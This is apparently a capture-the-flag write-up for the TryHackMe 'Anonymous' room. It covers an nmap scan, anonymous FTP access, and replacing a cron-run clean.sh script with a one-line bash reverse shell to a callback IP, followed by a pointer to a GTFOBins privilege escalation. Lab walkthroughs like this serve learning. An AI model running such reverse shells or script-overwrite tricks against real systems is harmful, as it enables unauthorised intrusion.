 ```yaml
---
title: Anonymous
layout: post
author: Bit Criminals Team
date: 2021-07-27 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/anonymous
---
```


## STEP_1 ==> NMAP SCAN
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-27 18:43 IST
Nmap scan report for 10.10.148.11
Host is up (0.20s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
try open ftp server

## STEP_2 ==> FTP SERVER

![](/images/otaku_/Anonymous_ftp.png) 

download the given files by command
>get [FILE NAME]
  
## STEP_3 ==> OPEN FILES AND SHELL

### clean.sh
```
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

```
here we find that this sh file is exexuting on server every time so we change this file

```

#!/bin/bash
bash -i >& /dev/tcp/10.9.3.13/4242 0>&1
```

putting this file on server by using command
>put clean.sh clean.sh

## STEP_4 ==> USER AND ROOT 

set off linPEAS - this actually highlighted our privilage escalation vector.
refer ->  https://gtfobins.github.io/gtfobins/env/

![](/images/otaku_/Anonymous_flag.png)
 

>--------------------------------------------------------